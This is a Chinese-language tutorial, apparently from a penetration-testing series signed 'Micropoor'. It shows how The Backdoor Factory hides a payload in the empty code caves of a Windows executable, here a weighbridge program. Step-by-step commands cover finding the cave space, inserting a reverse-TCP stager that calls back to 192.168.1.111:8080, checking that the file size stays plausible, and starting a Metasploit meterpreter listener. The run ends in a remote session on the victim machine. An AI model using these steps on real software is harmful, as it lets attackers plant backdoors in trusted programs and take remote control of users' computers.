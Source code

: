项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

### 原理
可执行二进制文件中有大量的 00，这些 00 是不包含数据的，将这些数据替换成 payload，并且在程序执行的时候，jmp 到代码段，来触发 payload。

### 以项目中的过磅系统为例：

```bash
root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor-factory.git 
//安装the-backdoor-factory 
```  
![](media/baa5f2ef8bc4b8332d377e179c2897d1.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S 
//检测是否支持后门植入
```  
![](media/65f5db4ee779eaacdff8a20bdfd35ea8.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150 
//测试裂缝空间size150
```  
![](media/2b8e42c3fe1195f37bf7b01fb31af21b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show 
//查看可用payload
```  
![](media/c576aabd967bcbbf39467dcf40ec2759.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded 
//插入payload，并生成文件。
```  
![](media/1dbc7c753b5135a67db8ac3bee6f3352.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值
```  
![](media/999c8d02e798b61f61a4d8cd284ffd0b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小
```  
![](media/edd13750f6b3e03121e63e805b4a5b97.jpg)

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```  
![](media/94330fb03737c7e42549f1b9b3a8bb21.jpg)

//打开软件  
![](media/2139e4a1c0c1e326605cf246742ff3a5.jpg)

```bash
meterpreter > getuid
Server username: John-PC\John 
```
//确定目标
![](media/613afd4b9343cfd43965aa934b71cc48.jpg)

>   Micropoor
